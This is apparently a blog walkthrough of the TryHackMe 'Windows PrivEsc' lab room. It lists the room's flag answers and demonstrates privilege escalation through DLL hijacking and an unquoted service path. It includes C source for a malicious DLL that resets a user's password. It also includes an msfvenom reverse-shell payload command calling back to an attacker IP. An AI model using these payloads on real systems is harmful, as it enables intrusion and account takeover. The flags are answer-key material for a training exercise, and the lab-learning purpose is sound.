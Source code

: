 ```yaml
---
description: 'This is my walkthrough for the TryHackMe Room: Windows PrivEsc.'
---
```


# Windows PrivEsc

This room can be found [here](https://tryhackme.com/room/winprivesc). This room covers a few methods of escalating from a normal user to the root user on a system.

## Task 2

### Question 2: List users on the target system. One of them resembles a flag.

`THM-17213` - Running `net users` will give us our answer

![](<../.gitbook/assets/image (611).png>)

### Question 3: What is the OS version of the target machine?

`10.0.17763 N/A Build 17763` - Running `systeminfo` will give us our answer

![](<../.gitbook/assets/image (147).png>)

### Question 4: When was security update KB4562562 installed?

`6/10/2020` - Following the command the room gives, `wmic qfe get Caption,Description,HotFixID,InstalledOn` but piping in the string we want to find will make this MUCH easier. `wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr "KB4562562"`

![](<../.gitbook/assets/image (372).png>)

### Question 5: What is the state of Windows Defender?

`STOPPED` - Running `sc query windefend` will give us our answer

![](<../.gitbook/assets/image (256).png>)

## Task 4

### Question 1: What version of a Fitbit application can you see installed?

`2.0.1.6782` - Following the example command the room gives us but piping to search will help.

`wmic product get name,version,vendor | findstr "Fitbit"`

### Question 2: What kind of vulnerability seems to affect the Fitbit application?

`Unquoted Service Path` - Having to do some minor research on this one, when going to Exploit.db we can search for "Fitbit" and find [this link](https://www.exploit-db.com/exploits/40482) which give us our answer.

### Question 3: What version of FoxitReader is installed on the target system?

`9.0.1.1049` - I admittedly had to go through the explorer via GUI to find this.

![](<../.gitbook/assets/image (348).png>)

## Task 5

First we are asked to replicate the attacks the room explained. So it asks us to create to malicious DLL file, and use it to modify the password for the user Jack so we can login as him.

```
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user Jack Passwors123");
        ExitProcess(0);
    }
    return TRUE;
}
```

We add the above code into a .c file then we can compile it.

`x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`

![](<../.gitbook/assets/image (750).png>)

Now we get the file onto the machine via whatever means we can. I'll be adding it by using a simple python web server. `python3 -m http.server` onmy attacker machine.

![](<../.gitbook/assets/image (350).png>)

Now we stop and start the DLL service with: `sc stop dllsvc` followed by `sc start dllsvc`

![](<../.gitbook/assets/image (158).png>)

### Question 3: Login with Jack's account (the new password you have set). What is the content of the flagdll.txt file?

`THM-8377492093` - Now that we have changed Jacks password, we can switch to his user via commandline or remote desktop in. I went with commandline and just opened up powershell as jack.

![](<../.gitbook/assets/image (456).png>)

Now we find the file: `Get-ChildItem -Path C:\ -Recurse -File flagdll.txt -ErrorAction SilentlyContinue`

![](<../.gitbook/assets/image (250).png>)

Then we get the file contents: `Get-Content 'C:\Users\jack\Documents\flagdll.txt'`

![](<../.gitbook/assets/image (427).png>)

## Task 6

### Question 1: What is the full unquoted path of unquotedsvc

`C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe` - So as the room suggests we can run `wmic service get name,displayname,pathname,startmode` but we can pip ewith `findstr` to make our search easier. `wmic service get name,displayname,pathname,startmode | findstr "unquotedsvc"`

![](<../.gitbook/assets/image (628).png>)

### Question 2: Go through subfolders in the unquotedsvc binary path. Which folder does the user have read and write privileges on?

`C:\Program Files\Unquoted Path Service\` - As the room tells us, accesschk64.exe is on the desktop, so running .\accesschk64.exe /accepteula -uwdq "C:\Program Files\\`Unquoted Path Service\"` We see our answer. We can write into the base directory of that.

![](<../.gitbook/assets/image (353).png>)

### Question 3: What would be the name of the executable you would place in that folder?

`common.exe` - I had to look this up as I found no clear indicator as why this file had to be named this

### Question 4: Obtain Administrator privileges on the target machine. What is the content of the flagUSP.txt file?

`THM-636729273483` - The room gives us an example payload to create a file to upload to the system. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.68.77 LPORT=4444 -f exe > common.exe`

![](<../.gitbook/assets/image (218).png>)

Now we start metasploit and get our listener ready `msfconsole -q`

![](<../.gitbook/assets/image (686).png>)

We can follow the rooms example just be sure to change the IP and PORT of YOUR machine you used when making the payload.

We get the file onto the target in whatever way we can, I'll again be using python3 webserver

![](<../.gitbook/assets/image (522).png>)

With our file now on the target, we can start the service `sc start unquotedsvc`

![](<../.gitbook/assets/image (493).png>)

We should now have our shell

![](<../.gitbook/assets/image (277).png>)

From here there are multiple ways we can find our file and flag but for the sake of brevity we will just stick with windows and methods we have already used.

We'll move to powershell with `powershell.exe`, then find the file we want, `Get-ChildItem -Path C:\ -Recurse -File flagUSP.txt -ErrorAction SilentlyContinue`,  then get the contents of the file, `Get-Content 'C:\Users\Cora\Documents\flagUSP.txt'`

![](<../.gitbook/assets/image (591).png>)

![](<../.gitbook/assets/image (682).png>)
